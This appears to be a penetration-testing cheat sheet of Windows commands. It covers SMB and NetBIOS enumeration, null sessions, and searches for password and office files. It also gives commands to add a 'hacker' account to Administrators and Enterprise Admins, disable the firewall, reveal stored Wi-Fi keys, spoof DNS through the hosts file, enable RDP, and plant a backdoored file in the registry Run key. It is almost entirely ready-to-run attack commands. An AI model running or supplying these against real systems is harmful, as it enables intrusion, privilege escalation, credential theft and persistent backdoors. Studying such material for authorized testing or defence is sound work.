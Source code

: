 # Windows


### Anonymous users can obtain the Windows password policy
```
msfconsole
use auxiliary/scanner/smb/smb_enumusers
```

### CIFS NULL Session Permitted
```
enum4linux -a <target IP>
```
```
rpcclient -U "" <target IP>

Enter  's password: <return>
```
```
rpcclient $>
  enumdomusers
  enumdomusers
  netshareenum
  netshareenumall
  querydominfo
  getdompwinfo
  srvinfo
  ```
  ```
net use \\target IP\ipc$ "" /u:""            * Windows
```


### CIFS Share Writeable By Everyone
```

Places > Network > Browse Network
```


### Connect anonymously
```
smbclient -N -L <target IP>
```

### Connect with credentials
```
smbclient -W domain -U user -L <target IP>
```


### NetBIOS and SMB
```
nmap -Pn -n -T4 -p139,445 --script=smb-check-vulns --script-args=unsafe=1 <range>
```
```
enum -G <target IP>                         * Windows
enum -P <target IP>

nbtenum -r <target IP>                      * Windows
nbtenum -q <target IP>

nbtscan -r <target range>
nbtscan -f hosts.txt
```

### Show domain users and group information
```

DumpSec
```

### Show members of domain groups
```
global.exe "domain admins" \\dc-controller
```

### Search all folders for filenames that include 'password'.
```
dir /s /p *password*.*                      * Windows
```

### net commands
```
net accounts                                * Local password policies.
net accounts /domain
net config workstation
net localgroup                              * Local Security Groups.
net localgroup /domain                      * Domain Security Groups.
net localgroup Administrators               * Users in the local Administrators Security Group.
net localgroup Administrators /domain       * Users in the domain Administrators Security Group.
net share
net user                                    * Local users.
net user /domain > users.txt                * All users in the current user's domain (take a few to run).
net user hacker /domain                     * Info on domain user.
net view                                    * Computers in the users domain and other domains.
net view /domain                            * Computers in other domain.

net user hacker password /add
net localgroup administrators /add hacker
```

### Domain accounts
```
net group “Domain Admins" /domain > domain-admin.txt
net group “Domain Users" /domain > domain-users.txt

net user hacker password /add /domain
net group "Enterprise Admins" hacker /add /domain
net groups "Enterprise Admins" /domain
```

### Enumeration
```
arp -a
ipconfig /all
ipconfig /displaydns
netstat -ano
netstat -ano | findstr LISTENING
netstat -c
netstat -ns
netstat -vb
route print

date /t & time /t
doskey /history
gpresult /COMPUTERNAME
gpresult /%username%
gpresult /z
nbtstat -A <target IP>
nbtstat -a <name of target>
net group
net group administrators
net session
net start
set
tasklist /m
tasklist /svc
tasklist /v

dir c:\*.xls /s				         * Show all Excel docs.
dir c:\*.xlsx /s			              * Show all Excel docs.
dir c:\*.ppt /s				         * Show all PowerPoint docs.
dir c:\*.pptx /s			              * Show all PowerPoint docs.
dir c:\*.doc /s				         * Show all Word docs.
dir c:\*.docx /s			              * Show all Word docs.
dir c:\*.pdf /s				         * Show all PDFs.
```

### Firewall
```
netsh firewall show config
netsh firewall add portopening TCP 8081 ePO
netsh firewall set opmode disable           * Disable firewall.

firewall show state
netsh firewall set opmode disable

netsh wlan show interfaces
netsh wlan show drivers
netsh wlan show networks
netsh wlan show profiles
netsh wlan show profiles name="name"
show profiles name="name" key=clear
```


### Local DNS spoofing
```
echo <attacker IP> facebook >> %WINDIR%\System32\drivers\etc\hosts
type %WINDIR%\System32\drivers\etc\hosts
```


### Misc
```
cd \WINDOWS\system32\
type %SYSTEMDRIVE%\boot.ini
type %WINDIR%\win.ini
fsutil fsinfo drives

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh rdesktop <target-IP>
```


HKLM
```
File > Load Hive
Just give it a name.
/Microsoft Windows/Current Version/Run
Add your back doored file.
```
